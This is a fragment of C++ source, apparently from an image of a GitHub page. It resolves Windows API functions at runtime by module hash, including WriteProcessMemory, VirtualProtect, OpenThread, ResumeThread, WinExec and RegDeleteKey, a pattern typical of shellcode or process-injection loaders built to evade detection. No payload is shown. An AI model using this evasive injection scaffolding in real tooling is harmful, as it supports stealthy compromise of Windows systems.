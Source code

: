 ```cpp
    LoadLibraryType LoadLibraryFunc;
    OpenThreadType OpenThreadFunc;
    ResumeThreadType ResumeThreadFunc;
    ExitThreadType ExitThreadFunc;


#ifdef WPM
    WriteProcessMemoryType WriteProcessMemoryFunc;
#endif
    VirtualProtectType VirtualProtectFunc;
    FreeLibraryType FreeLibraryFunc;
    WaitForSingleObjectType WaitForSingleObjectFunc;

    RegGetValueType RegGetValueFunc;
    RegOpenKeyType RegOpenKeyFunc;
    RegDeleteKeyType RegDeleteKeyFunc;
    mallocType mallocFunc;
    memsetType memsetFunc;
    memcpyType memcpyFunc;
    freeType freeFunc;
#ifdef _DEBUG
    printfType printfFunc;
#endif
    SleepType SleepFunc;
    OpenMutexType OpenMutexFunc;
    CloseHandleType CloseHandleFunc;
    RegCloseKeyType RegCloseKeyFunc;
    WinExecType WinExecFunc;

    // kernel32.dll exports
    kernel32dll = (HMODULE)GetModule(KERNEL32DLL_HASH);

    OpenThreadFunc = (OpenThreadType)GetSymbolAddress(kernel32dll, (LPCSTR)OpenThreadName);
    LoadLibraryFunc = (LoadLibraryType)GetSymbolAddress(kernel32dll, (LPCSTR)LoadLibraryName);
    ResumeThreadFunc = (ResumeThreadType)GetSymbolAddress(kernel32dll, (LPCSTR)ResumeThreadName);
#ifdef WPM
    WriteProcessMemoryFunc = (WriteProcessMemoryType)GetSymbolAddress(kernel32dll, (LPCSTR)WriteProcessMemoryName);
#endif
    VirtualProtectFunc = (VirtualProtectType)GetSymbolAddress(kernel32dll, (LPCSTR)VirtualProtectName);
    SleepFunc = (SleepType)GetSymbolAddress(kernel32dll, (LPCSTR)SleepName);
    OpenMutexFunc = (OpenMutexType)GetSymbolAddress(kernel32dll, (LPCSTR)OpenMutexName);
    CloseHandleFunc = (CloseHandleType)GetSymbolAddress(kernel32dll, (LPCSTR)CloseHandleName);
    WinExecFunc = (WinExecType)GetSymbolAddress(kernel32dll, (LPCSTR)WinExecName);
    WaitForSingleObjectFunc = (WaitForSingleObjectType)GetSymbolAddress(kernel32dll, (LPCSTR)WaitForSingleObjectName);
    ExitThreadFunc = (ExitThreadType)GetSymbolAddress(kernel32dll, (LPCSTR)ExitThreadName);

#ifndef NO_LIB_RELOAD
    FreeLibraryFunc = (FreeLibraryType)GetSymbolAddress(kernel32dll, (LPCSTR)FreeLibraryName);
#endif


    // msvcrt.dll exports
    msvcrtdll = (HMODULE)GetModule(MSVCRTDLL_HASH);

    if (0 == (int)msvcrtdll) {
        msvcrtdll = LoadLibraryFunc((LPCWSTR)msvcrtdllName);

    }
    mallocFunc = (mallocType)GetSymbolAddress(msvcrtdll, (LPCSTR)mallocName);
    memsetFunc = (memsetType)GetSymbolAddress(msvcrtdll, (LPCSTR)memsetName);
```